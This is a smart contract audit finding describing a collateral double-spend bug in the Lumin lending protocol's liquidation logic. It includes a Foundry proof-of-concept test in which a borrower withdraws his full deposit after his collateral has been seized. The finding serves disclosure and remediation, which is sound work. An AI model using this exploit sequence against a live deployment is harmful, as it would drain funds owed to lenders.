 **Auditor**

[Pashov](https://twitter.com/pashovkrum)

# Findings

## High Risk

### [C-01] Collateral double-spend post liquidation is possible

**Severity**

**Impact:**
High, as a borrower can double-spend his collateral

**Likelihood:**
High, as liquidations never subtract the collateral amount

**Description**

In `AssetManager::assetTransferOnLoanAction` in the `if (action == AssetActionType.Seize)` statement, the transferred amount is only subtracted from `userDepositFrom.lockedAmount`, but it should have also been subtracted from `userDepositFrom.depositAmount` as well. This means that a borrower's collateral balance won't be decreased on liquidation, even though the loan shareholders will receive most of the collateral.

Here is an executable Proof of Concept unit test that demonstrates the vulnerability (you can add this in the end of your `LoanManager.Repay` test file):

```solidity
function test_LiquidateExploit() public {
    // because of the `setUp` method, at this point Bob has taken a loan from Alice through Lumin
    uint256 bobDeposit = wrappedAssetManager.depositOf(assetId[1], bob).depositAmount;

    // make loan expire
    vm.warp(block.timestamp + 300 days + 1);
    // random user liquidates Bob's loan, so collateral (asset[1]) should be transferred to the lender
    vm.prank(0x1111111111111111111111111111111111111111);
    wrappedLoanManagerDelegator.liquidate(1);

    // Bob can withdraw his whole deposit even though part of it was used as collateral and was liquidated
    uint256 bobCollateralWalletBalance = mockERC20Token[1].balanceOf(bob);
    vm.prank(bob);
    wrappedAssetManager.assetDepositWithdraw(assetId[1], IAssetManager.AssetActionType.Withdraw, bobDeposit);

    assertEq(mockERC20Token[1].balanceOf(bob) - bobCollateralWalletBalance, bobDeposit);
}
```
